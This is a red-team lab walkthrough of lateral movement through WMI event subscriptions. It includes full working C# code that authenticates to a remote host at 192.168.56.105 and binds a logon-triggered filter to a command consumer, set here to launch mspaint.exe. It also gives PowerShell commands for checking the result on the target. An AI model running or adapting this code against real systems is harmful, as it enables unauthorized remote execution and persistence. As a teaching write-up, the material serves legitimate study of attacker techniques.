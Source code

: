# Lateral Movement via WMI Event Subscription

This is a quick lab to familiariaze with a lateral movement technique using WMI events, as described in [@domchell](https://twitter.com/domchell) aricle [I Like to Move It: Windows Lateral Movement Part 1 – WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - go check it out for more details, including detection ideas.

See my other lab related to persistence using WMI events:

{% content-ref url="../persistence/t1084-abusing-windows-managent-instrumentation/" %}
[t1084-abusing-windows-managent-instrumentation](../persistence/t1084-abusing-windows-managent-instrumentation/)
{% endcontent-ref %}

## Walkthrough

The below C# code for WMI events based lateral movement does a couple of things:

| Line                              | Action                                                                                                                                                                                                                                                                             |
| --------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 29 - 33                           | Connects to the remote endpoint `192.168.56.105` using local admin credentials `spotless:123456`                                                                                                                                                                                   |
| 33 - 46                           | <p>Creates a new WMI filter <code>evilSpotlessFilter</code> on <code>192.168.56.105</code>. <br>It will get triggered when a new logon session is created on <code>192.168.56.105</code></p>                                                                                       |
| 49 - 52                           | <p>Creates a WMI consumer <code>evilSpotlessConsumer</code> on <code>192.168.56.105</code>. <br>This consumer executes <code>mspaint.exe</code> on <code>192.168.56.105</code>, when the filter <code>evilSpotlessFilter</code> is triggered (upon new logon session creation)</p> |
| 55 - 58                           | WMI filter `evilSpotlessFilter` and WMI consumer `evilSpotlessConsumer` are bound. In layman's terms, the system `192.168.56.105` is instructed to **DEFINITELY** fire `mspaint.exe` on each new logon session that is created on the system.                                      |

```csharp
// code completely stolen from @domchell article 
// https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
// slightly modified to accommodate this lab

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmisubscription_lateralmovement
{
    class Program
    {
        static void Main(string[] args)
        {

            // Connect to remote endpoint for WMI management
            string NAMESPACE = @"\\192.168.56.105\root\subscription";

            ConnectionOptions cOption = new ConnectionOptions();
            ManagementScope scope = null;
            scope = new ManagementScope(NAMESPACE, cOption);
            
            scope.Options.Username = "spotless";
            scope.Options.Password = "123456";
            scope.Options.Authority = string.Format("ntlmdomain:{0}", ".");
            
            scope.Options.EnablePrivileges = true;
            scope.Options.Authentication = AuthenticationLevel.PacketPrivacy;
            scope.Options.Impersonation = ImpersonationLevel.Impersonate;
            scope.Connect();

            // Create WMI event filter
            ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);

            string query = "SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'";
            WqlEventQuery myEventQuery = new WqlEventQuery(query);

            ManagementObject myEventFilter = wmiEventFilter.CreateInstance();
            myEventFilter["Name"] = "evilSpotlessFilter";
            myEventFilter["Query"] = myEventQuery.QueryString;
            myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
            myEventFilter["EventNameSpace"] = @"root\cimv2";
            myEventFilter.Put();

            // Create WMI event consumer
            ManagementObject myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
            myEventConsumer["Name"] = "evilSpotlessConsumer";
            myEventConsumer["ExecutablePath"] = "mspaint.exe";
            myEventConsumer.Put();

            // Bind filter and consumer
            ManagementObject  myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"), null).CreateInstance();
            myBinder["Filter"] = myEventFilter.Path.RelativePath;
            myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
            myBinder.Put();

            // Cleanup
            // myEventFilter.Delete();
            // myEventConsumer.Delete();
            // myBinder.Delete();

        }
    }
}
```

## Observations

Once `connect` method is called, a couple of connections from the attacking machine (top right) are initiated to the target machine `192.168.56.105` (bottom right) over port TCP 135 (traffic receiver is svchost.exe as it's hosting the RPC service through which we are communicating):

![](<../../.gitbook/assets/image (655).png>)

After the code has executed, it will have created the WMI event filters, consumers and bind them on the target host `192.168.56.105`.

On the target host, we can check if the said filters and consumers were created like so:

```csharp
# view wmi filters
Get-WmiObject -Class __EventFilter -Namespace root\subscription

# view wmi consumers
Get-WmiObject -Class __EventConsumer -Namespace root\subscription

# view bindings
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```

Below shows output of the `evilSpotlessFilter` WMI filter we created on the target system:

![](<../../.gitbook/assets/image (656).png>)

## Demo

Below shows the WMI events based lateral movement technique in action:

* On the left, we compile and run the code that creates WMI event filters, consumers and binds them together
* In the top right corner - ther is a ProcMon that is set to capture when a new `mspaint.exe` process starts. In our case, it should start once there is a new logon session created on the system (remember, because of the `evilSpotlessFilter`)
* In the bottom right corner there is a powershell console initiating a new logon session with `runas.exe`. Once the authentication succeeds, a new logon session is created, cmd.exe is spawned and the WMI event filter `evilSpotlessFilter` is triggered and WMI event consumer `evilSpotlessConsumer` kicks off the `mspaint.exe`:

![](../../.gitbook/assets/wmi-events-lateralmovement.gif)

## References

{% embed url="https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/wmisdk/commandlineeventconsumer" %}

